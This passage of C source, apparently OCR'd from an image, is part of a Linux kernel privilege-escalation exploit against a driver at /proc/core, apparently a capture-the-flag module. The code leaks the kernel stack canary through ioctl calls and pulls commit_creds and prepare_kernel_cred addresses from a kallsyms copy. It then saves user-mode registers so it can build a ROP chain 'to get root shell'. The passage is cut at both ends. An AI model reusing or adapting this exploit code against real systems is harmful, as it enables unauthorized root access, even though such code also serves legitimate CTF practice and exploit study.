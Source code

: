 ```c
    );

    printf("user_cs:0x%016llx\n", user_cs);
    printf("user_ss:0x%016llx\n", user_ss);
    printf("user_rsp:0x%016llx\n", user_rsp);
    printf("user_flag:0x%016llx\n", user_flag);
}

unsigned long long get_kernel_func_addr(char *cmd)
{
    char buf[64];
    memset(buf, 0, sizeof(buf));
    FILE *fp = popen(cmd, "r");
    fgets(buf, sizeof(buf), fp);
    return strtoul(buf, NULL, 16);
}
unsigned long long get_commit_cred_addr()
{
    char *cmd = "cat /tmp/kallsyms |grep commit_cred|awk '{print $1}'";
    return get_kernel_func_addr(cmd);
}
unsigned long long get_prepare_kernel_cred_addr()
{
    char *cmd = "cat /tmp/kallsyms |grep prepare_kernel_cred|awk '{print $1}'";
    return get_kernel_func_addr(cmd);
}

int main(int argc, char **argv)
{
    int fd = open("/proc/core", O_RDWR);
    unsigned long long buf[64];

    unsigned int off_set_cmd = 0x6677889C;
    unsigned int read_cmd = 0x6677889B;
    unsigned int core_copy_func_cmd = 0x6677889A;

    // first setting off = 64
    int off = 64;
    ioctl(fd, off_set_cmd, 64);

    // call read to leak canary
    ioctl(fd, read_cmd, buf);

    for (int i = 0; i < 64; i++)
    {
        printf("%016llx ", buf[i]);
    }
    printf("\n");
    unsigned long long canary = buf[0];
    ret_addr = buf[2];
    printf("get canay is:%016llx\n", canary);

    // set commit_cred and prepare_kernel_cred address
    commit_cred_addr = get_commit_cred_addr();
    prepare_kernel_cred_addr = get_prepare_kernel_cred_addr();
    printf("commit_cred:%016llx\n", commit_cred_addr);
    printf("prepare_kernel_cred:%016llx\n", prepare_kernel_cred_addr);
    printf("sizeof name_payload:%d\n",sizeof(name_payload));

    //use rop to get root shell
    save_status();
    build_rop(canary);
    // set name
```